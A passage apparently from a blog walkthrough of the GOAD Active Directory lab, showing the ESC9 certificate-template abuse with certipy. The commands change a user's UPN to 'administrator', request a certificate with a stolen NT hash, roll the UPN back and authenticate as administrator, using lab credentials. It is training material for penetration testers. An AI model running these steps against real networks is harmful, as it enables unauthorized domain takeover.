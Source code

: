 - Change the UPN (user principal name on the account)

```bash
certipy account update -username "missandei@essos.local" -p "fr3edom" -user viserys.targaryen -upn administrator -dc-ip 192.168.56.12
```

![part14_esc9_changeUPN.png](/assets/blog/GOAD/part14_esc9_changeUPN.png)


- Request certificate for the user viserys with viserys hash (obtained from the shadow credentials and unpac the hash)

```bash
certipy req -username "viserys.targaryen@essos.local" -hashes "d96a55df6bef5e0b4d6d956088036097" -target "braavos.essos.local" -ca 'ESSOS-CA' -template 'user' -debug
```

![part14_esc9_request_cert.png](/assets/blog/GOAD/part14_esc9_request_cert.png)

- Rollback upn modification

```bash
certipy account update -username "missandei@essos.local" -p "fr3edom" -user viserys.targaryen -upn viserys.targaryen -dc-ip 192.168.56.12
```

- Enjoy your admin certificate !

```bash
certipy auth -pfx 'administrator.pfx' -domain "essos.local" -dc-ip 192.168.56.12
```

![part14_esc9_finish.png](/assets/blog/GOAD/part14_esc9_finish.png)

